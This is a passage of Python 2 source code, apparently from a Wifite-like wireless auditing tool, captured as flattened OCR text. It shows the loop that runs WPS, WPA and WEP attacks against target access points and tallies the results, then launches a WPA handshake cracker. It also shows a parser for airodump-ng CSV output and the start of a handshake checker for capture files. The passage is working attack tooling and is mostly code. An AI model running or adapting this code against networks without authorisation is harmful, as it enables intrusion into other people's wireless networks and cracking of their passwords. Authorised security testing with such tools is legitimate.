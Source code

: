 '-') + '.cap' if os.path.exists(handshake_file): print R + '\n [!] ' + O + 'you already have a handshake file for %s:' % (C + target.ssid + W) print ' %s\n' % (G + handshake_file + W) print GR + ' [+]' + W + ' do you want to ' + G + '[s]kip' + W + ', ' + O + '[c]apture again' + W + ', or ' + R + '[o]verwrite' + W + '?' ri = 'x' while ri != 's' and ri != 'c' and ri != 'o': ri = raw_input( GR + ' [+] ' + W + 'enter ' + G + 's' + W + ', ' + O + 'c,' + W + ' or ' + R + 'o' + W + ': ' + G).lower() print W + "\b", if ri == 's': targets.pop(index) index -= 1 elif ri == 'o': remove_file(handshake_file) continue index += 1 except KeyboardInterrupt: print '\n ' + R + '(^C)' + O + ' interrupted\n' self.RUN_CONFIG.exit_gracefully(0) wpa_success = 0 wep_success = 0 wpa_total = 0 wep_total = 0 self.RUN_CONFIG.TARGETS_REMAINING = len(targets) for t in targets: self.RUN_CONFIG.TARGETS_REMAINING -= 1 # Build list of clients connected to target ts_clients = [] for c in clients: if c.station == t.bssid: ts_clients.append(c) print '' if t.encryption.find('WPA') != -1: need_handshake = True if not self.RUN_CONFIG.WPS_DISABLE and t.wps: wps_attack = WPSAttack(iface, t, self.RUN_CONFIG) need_handshake = not wps_attack.RunAttack() wpa_total += 1 if not need_handshake: wpa_success += 1 if self.RUN_CONFIG.TARGETS_REMAINING < 0: break if not self.RUN_CONFIG.PIXIE and not self.RUN_CONFIG.WPA_DISABLE and need_handshake: wpa_total += 1 wpa_attack = WPAAttack(iface, t, ts_clients, self.RUN_CONFIG) if wpa_attack.RunAttack(): wpa_success += 1 elif t.encryption.find('WEP') != -1: wep_total += 1 wep_attack = WEPAttack(iface, t, ts_clients, self.RUN_CONFIG) if wep_attack.RunAttack(): wep_success += 1 else: print R + ' unknown encryption:', t.encryption, W # If user wants to stop attacking if self.RUN_CONFIG.TARGETS_REMAINING <= 0: break if wpa_total + wep_total > 0: # Attacks are done! Show results to user print '' print GR + ' [+] %s%d attack%s completed:%s' % ( G, wpa_total + wep_total, '' if wpa_total + wep_total == 1 else 's', W) print '' if wpa_total > 0: if wpa_success == 0: print GR + ' [+]' + R, elif wpa_success == wpa_total: print GR + ' [+]' + G, else: print GR + ' [+]' + O, print '%d/%d%s WPA attacks succeeded' % (wpa_success, wpa_total, W) for finding in self.RUN_CONFIG.WPA_FINDINGS: print ' ' + C + finding + W if wep_total > 0: if wep_success == 0: print GR + ' [+]' + R, elif wep_success == wep_total: print GR + ' [+]' + G, else: print GR + ' [+]' + O, print '%d/%d%s WEP attacks succeeded' % (wep_success, wep_total, W) for finding in self.RUN_CONFIG.WEP_FINDINGS: print ' ' + C + finding + W caps = len(self.RUN_CONFIG.WPA_CAPS_TO_CRACK) if caps > 0 and not self.RUN_CONFIG.WPA_DONT_CRACK: print GR + ' [+]' + W + ' starting ' + G + 'WPA cracker' + W + ' on %s%d handshake%s' % ( G, caps, W if caps == 1 else 's' + W) for cap in self.RUN_CONFIG.WPA_CAPS_TO_CRACK: wpa_crack(cap, self.RUN_CONFIG) print '' self.RUN_CONFIG.exit_gracefully(0) def parse_csv(self, filename): """ Parses given lines from airodump-ng CSV file. Returns tuple: List of targets and list of clients. """ if not os.path.exists(filename): return ([], []) targets = [] clients = [] try: hit_clients = False with open(filename, 'rb') as csvfile: targetreader = csv.reader((line.replace('\0', '') for line in csvfile), delimiter=',') for row in targetreader: if len(row) < 2: continue if not hit_clients: if row[0].strip() == 'Station MAC': hit_clients = True continue if len(row) < 14: continue if row[0].strip() == 'BSSID': continue enc = row[5].strip() wps = False # Ignore non-WPA and non-WEP encryption if enc.find('WPA') == -1 and enc.find('WEP') == -1: continue if self.RUN_CONFIG.WEP_DISABLE and enc.find('WEP') != -1: continue if self.RUN_CONFIG.WPA_DISABLE and self.RUN_CONFIG.WPS_DISABLE and enc.find( 'WPA') != -1: continue if enc == "WPA2WPA" or enc == "WPA2 WPA": enc = "WPA2" wps = True if len(enc) > 4: enc = enc[4:].strip() power = int(row[8].strip()) ssid = row[13].strip() ssidlen = int(row[12].strip()) ssid = ssid[:ssidlen] if power < 0: power += 100 t = Target(row[0].strip(), power, row[10].strip(), row[3].strip(), enc, ssid) t.wps = wps targets.append(t) else: if len(row) < 6: continue bssid = re.sub(r'[^a-zA-Z0-9:]', '', row[0].strip()) station = re.sub(r'[^a-zA-Z0-9:]', '', row[5].strip()) power = row[3].strip() if station != 'notassociated': c = Client(bssid, station, power) clients.append(c) except IOError as e: print "I/O error({0}): {1}".format(e.errno, e.strerror) return ([], []) return (targets, clients) def analyze_capfile(self, capfile): """ Analyzes given capfile for handshakes using various programs. Prints results to console. """ # we're not running an attack wpa_attack = WPAAttack(None, None, None, None) if self.RUN_CONFIG.TARGET_ESSID == '' and self.RUN_CONFIG.TARGET_BSSID == '': print R + ' [!]' + O + ' target ssid and bssid are required to check for handshakes' print R + ' [!]' + O + ' please enter essid (access point name) using -e <name>' print R + ' [!]' + O + ' and/or target bssid (mac address) using -b <mac>\n' # exit_gracefully(1) if self.RUN_CONFIG.TARGET_BSSID == '': # Get the first BSSID found in tshark! self.RUN_CONFIG.TARGET_BSSID = get_bssid_from_cap(self.RUN_CONFIG.TARGET_ESSID, capfile) # if TARGET_BSSID.find('->') != -1: TARGET_BSSID == '' if self.RUN_CONFIG.TARGET_BSSID == '': print R + ' [!]' + O + ' unable to guess BSSID from ESSID!' else: print GR + ' [+]' + W + ' guessed bssid: %s' % (G + self.RUN_CONFIG.TARGET_BSSID + W) if self.RUN_CONFIG.TARGET_BSSID != '' and self.RUN_CONFIG.TARGET_ESSID == '': self.RUN_CONFIG.TARGET_ESSID = get_essid_from_cap(self.RUN_CONFIG.TARGET_BSSID, capfile) print GR + '\n [+]' + W + ' checking for handshakes in %s' % (G + capfile + W) t = Target(self.RUN_CONFIG.TARGET_BSSID, '', '', '', 'WPA', self.RUN_CONFIG.TARGET_ESSID) if program_exists('pyrit'): result = wpa_attack.has_handshake_pyrit(t, capfile) print GR + ' [+]'